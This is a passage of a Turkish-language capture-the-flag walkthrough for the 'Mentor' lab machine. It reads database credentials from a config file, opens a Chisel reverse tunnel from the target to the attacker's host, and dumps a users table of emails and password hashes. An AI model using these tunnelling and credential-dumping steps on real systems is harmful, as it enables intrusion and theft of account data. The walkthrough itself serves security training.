 Dosyaları inceleyelim.

```bash
/app/app # cat db.py
import os
[...]
# Database url if none is passed the default one is used
DATABASE_URL = os.getenv("DATABASE_URL", "postgresql://postgres:postgres@172.22.0.1/mentorquotes_db")
[...]
# SQLAlchemy for users
engine = create_engine(DATABASE_URL)
metadata = MetaData()
users = Table(
    "users",
    metadata,
    Column("id", Integer, primary_key=True),
    Column("email", String(50)),
    Column("username", String(50)),
    Column("password", String(128) ,nullable=False)
)
# Databases query builder
database = Database(DATABASE_URL)

/app/app #
```

`172.22.0.1` ipsinde bulunan postgresql sunucusuna ait bilgileri içermektedir.

# <span style="color:#AA0E1C"><b># Shell as svc</b></span>

`Chisel` ile tünelleme yaparak postgresql servisine erişmeye çalışalım.

```bash
Saldırgan Makine:
root@acivik:~/Mentor# chisel server --reverse -p 1337

Hedef Makine:
/tmp # ./chisel client --max-retry-count=1 10.10.14.13:1337 R:5432:172.22.0.1:5432
```

Chiseli çalıştırdıktan sonra artık postgresql’e erişebiliriz.

```bash
root@acivik:~/Mentor# psql -Upostgres -W -d mentorquotes_db -h 127.0.0.1 -p 5432
Password: 
psql (14.5 (Debian 14.5-3), server 13.7 (Debian 13.7-1.pgdg110+1))
Type "help" for help.

mentorquotes_db=# \dt
          List of relations
 Schema |   Name   | Type  |  Owner   
--------+----------+-------+----------
 public | cmd_exec | table | postgres
 public | quotes   | table | postgres
 public | users    | table | postgres
(3 rows)

mentorquotes_db=# select * from users;
 id |         email          |  username   |             password             
----+------------------------+-------------+----------------------------------
  1 | james@mentorquotes.htb | james       | 7ccdcd8c05b59add9c198d492b36a503
  2 | svc@mentorquotes.htb   | service_acc | 53f22d0dfa10dce7e29cd31f4f953fd8
  4 | a@civik.com            | acivik      | bd359bb9358b0ff90d1ae6241e48b213
(3 rows)

```